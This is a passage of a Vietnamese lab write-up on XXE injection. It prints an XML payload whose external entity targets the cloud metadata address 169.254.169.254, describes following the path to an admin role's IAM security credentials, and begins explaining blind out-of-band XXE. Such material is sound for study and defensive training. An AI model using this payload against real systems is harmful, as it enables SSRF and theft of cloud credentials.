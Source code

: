 Đề bài ở lab2 này giống với lab1 nhưng chỉ thay đổi cách tấn công nên em sẽ chỉ nêu payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
  <stockCheck>
    <productId>
      1
      &xxe;
    </productId>
    <storeId>1</storeId>
  </stockCheck>
```
Khi gửi payload này thì ta nhận được instance tiếp theo là ``lastest``

![lab2](./img/lab2-lastest.png)

Ta thêm ``/latest`` vào url và tiếp tục gửi payload. Cứ thế ta được đường dẫn đến ``SecretAccessKey`` như sau ``http://169.254.169.254/latest/meta-data/iam/security-credentials/admin``

## 6. Exploiting blind XXE
Tương tự như blind SQLi thì blind XXE xảy ra khi ứng dụng không trả về bất kỳ respone nào cho ta khi thực hiện XXE injection. Trong bài này em sẽ đề cập đến 2 kỹ thuật để thực hiện tấn công blind XXE là **blind XXE out-of-band** và **blind XXE eror message**
### A. Blind XXE out-of-band
Đây là kỹ thuật mà ta sẽ inject payload sao cho target gửi request đến web mà ta kiểm soát. Cách triển khai thì tương tự như ``XXE SSRF attack``
